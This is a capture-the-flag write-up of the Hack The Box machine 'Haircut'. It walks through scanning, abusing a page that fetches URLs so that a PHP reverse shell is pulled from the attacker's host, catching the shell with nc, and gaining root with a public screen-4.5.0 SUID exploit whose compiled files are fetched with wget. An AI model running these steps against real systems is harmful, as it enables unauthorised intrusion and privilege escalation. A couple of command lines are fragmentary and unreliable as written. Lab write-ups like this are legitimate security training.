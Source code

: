 <center><h1>Haircut</h1><center>
<br>
<center><h3>Summary</h3></center>
<br>

First start with an Nmap scan
```
# nmap -sV -sC -T4 -p- 10.10.10.24
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-26 16:37 UTC
Nmap scan report for 10.10.10.24
Host is up (0.060s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.49 seconds
```
Only a couple ports to work with. Checking out port 80 we are greeted with a basic web page with a photo.

<center><img src="/htb/haircut/home.png"></center>
<br>
Running a gobuster we find a couple of pages.
```
# gobuster dir -u http://10.10.10.24 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20    
===============================================================                                                                               
Gobuster v3.0.1                                                                                                                               
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                               
===============================================================                                                                               
[+] Url:            http://10.10.10.24                                                                                                        
[+] Threads:        20                                                                                                                        
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                              
[+] Status codes:   200,204,301,302,307,401,403                                                                                               
[+] User Agent:     gobuster/3.0.1                                                                                                            
[+] Extensions:     txt,php                                                                                                                   
[+] Timeout:        10s                                                                                                                       
===============================================================                                                                               
2019/09/26 16:46:56 Starting gobuster                                                                                                         
===============================================================                                                                               
/uploads (Status: 301)                                                                                                                        
/exposed.php (Status: 200)                                                                                                              
```
The <b>/uploads</b> directory redirects us to a 403 so we cant do much there right now. The <b>/exposed.php</b> is the one that we want. In the top left we see a button that prints out a <b>test.html</b> file from the localhost.

<center><img src="/htb/haircut/button.png"></center>
<br>
I decided to try and see if I can interact with my attacking machine. To do this I set up a <b>python SimpleHTTPServer</b> on my attacking machine so I could attempt to transfer the a reverse shell over.
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

# http://10.10.14.21/shell.php -o uploads/shell.php
```
Now I set up my <b>nc</b> listener and then triggered the shell by navigating to <b>http://10.10.14.21/uploads/shell.php</b>. If we check the listener then we will see that a shell has opened
```
# nc -lvnp 9999                                                                                                  
listening on [any] 9999 ...                                                                                                                   
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.24] 43682                                                                                   
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux                                     
 19:45:58 up  1:08,  0 users,  load average: 0.00, 0.00, 0.00                                                                                 
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                                                                           
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                         
/bin/sh: 0: can't access tty; job control turned off                                                                                          
$
```
From here we can grab the user flag
```
$ cat user.txt
 0b0da2af50e9ab7c81a6ec2c562afeae
```
Now for the priv esc. If we run a LinEnum script you should see the vulnerable <b>SUID</b> binary <b>screen-4.5.0</b>.
```
-rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at                                                                                     
-rwsr-xr-x 1 root root 54256 May  4  2017 /usr/bin/passwd                                                                                     
-rwsr-xr-x 1 root root 1588648 May 19  2017 /usr/bin/screen-4.5.0                                                                             
-rwsr-xr-x 1 root root 40432 May  4  2017 /usr/bin/chsh                                                                                       
-rwsr-xr-x 1 root root 49584 May  4  2017 /usr/bin/chfn                                                                                       
```
A quick google search will reveal the exploit *[here](https://www.exploit-db.com/exploits/41154)*. The problem is the exploit does not work stright away because <b>gcc</b> is broken on the box so we need to compile <b>libhax.c</b> and <b>rootshell.c</b> locally and then upload them to the box.
```
# gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c                                                                        
/tmp/libhax.c: In function ‘dropshell’:

# gcc -o /tmp/rootshell /tmp/rootshell.c                                                                                        
/tmp/rootshell.c: In function ‘main’:
```
Now we need to copy <b>libhax.so</b> and <b>rootshell</b> over to the <b>/tmp</b> directory on the box. We can do this using a <b>python SimpleHTTPServer</b> again
```
$ wget 10.10.14.21:8000/rootshell                                                                                                             
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                      
--2019-09-26 21:02:00--  http://10.10.14.21:8000/rootshell                                                                                    
Connecting to 10.10.14.21:8000... connected.                                                                                                  
HTTP request sent, awaiting response... 200 OK                                                                                                
Length: 16824 (16K) [application/octet-stream]                                                                                                
Saving to: 'rootshell'                                                                                                                        

     0K .......... ......                                     100%  562K=0.03s                                                                

2019-09-26 21:02:01 (562 KB/s) - 'rootshell' saved [16824/16824]                                                                              

[+] done!                                                                                                                                     
$ wget 10.10.14.21:8000/libhax.so                                                                                                             
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                      
ERROR: ld.so: object '/tmp/libhax.so' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                  
--2019-09-26 21:01:48--  http://10.10.14.21:8000/libhax.so                                                                                    
Connecting to 10.10.14.21:8000... connected.                                                                                                  
HTTP request sent, awaiting response... 200 OK                                                                                                
Length: 16136 (16K) [application/octet-stream]                                                                                                
Saving to: 'libhax.so'                                                                                                                        

     0K .......... .....                                      100%  521K=0.03s                                                                

2019-09-26 21:01:48 (521 KB/s) - 'libhax.so' saved [16136/16136]                                                                              
```
Now run the exploit from earlier
```
$ bash screenroot.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
gcc: error trying to exec 'cc1': execvp: No such file or directory
gcc: error trying to exec 'cc1': execvp: No such file or directory
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

whoami
root
```
Now we can grab the root flag
```
# cat root.txt
4cfa26d84b2220826a07f0697dc72151
```
<br><br><br><br>
